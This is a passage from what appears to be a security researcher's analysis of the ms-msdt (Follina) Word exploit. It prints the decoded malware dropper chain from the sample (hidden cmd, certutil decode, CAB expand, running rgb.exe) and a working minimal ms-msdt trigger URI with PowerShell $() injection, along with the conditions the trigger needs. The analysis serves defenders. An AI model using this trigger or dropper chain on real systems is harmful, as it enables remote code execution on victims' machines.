 This looks to be the crux of the exploit. Using a schema for ms-msdt, the native package PCWDiagnostic is invoked with the parameters IT_BrowseForFile which includes PowerShell syntax embedded within $().

The Base64 encoded data, ran through two layers of Invoke-Expression, decode to:

```
$cmd = "c:\windows\system32\cmd.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c taskkill /f /im msdt.exe";
Start-Process
 $cmd -windowstyle hidden -ArgumentList "/c cd
C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy
 %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil
-decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";
```

With the path to **cmd.exe** captured as a variable, this process:

- Starts hidden windows to:
    - Kill msdt.exe if it is running
    - Loop through files inside a RAR file, looking for a Base64 string for an encoded CAB file
        - Store this Base64 encoded CAB file as **1.t**
        - Decode the Base64 encoded CAB file to be saved as **1.c**
        - Expand the **1.c** CAB file into the current directory, and finally:
        - Execute **rgb.exe** (presumably compressed inside the 1.c CAB file)

The impact of **rgb.exe** specifically is unknown, but the important takeaway is that this is a novel initial access technique that readily offers threat actors code execution with just a single click—or less. This is an enticing attack for adversaries as it is tucked inside of a Microsoft Word document without macros to trigger familiar warning signs to users—but with the ability to run remotely hosted code.

After some testing, it was clear that the payload would not execute without a significant number of padding characters (the A’s that were present in the HTML comments). Different variations are explored, using different characters and placing the block of comments above and below the triggering script code… but it wasn’t clear why this was necessary until the community stepped in. Rich Warren shareda blog from Bill Demirkapi indicating there was a hardcoded buffer size for an HTML processing function, and we were able to confirm any files with fewer than 4096 bytes would not invoke the payload.

Following even more tinkering, noticed that some syntax used within the script invocation was not necessary to invoke the payload. Using the same benign payload (with the opening of the Windows built-in calculator as our demonstration of success,) we could shrink the trigger to just:

location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc)/.exe\"";

It appeared that:

- At a minimum, two /../ directory traversals were required at the start of the IT_BrowseForFile parameter
- Code wrapped within $() would execute via PowerShell, but spaces would break it
- “.exe” must be the last trailing string present at the end of the IT_BrowseForFile parameter

While this is not by any means the most it could be compressed down to, we hope this shows how variants of this attack could exist.
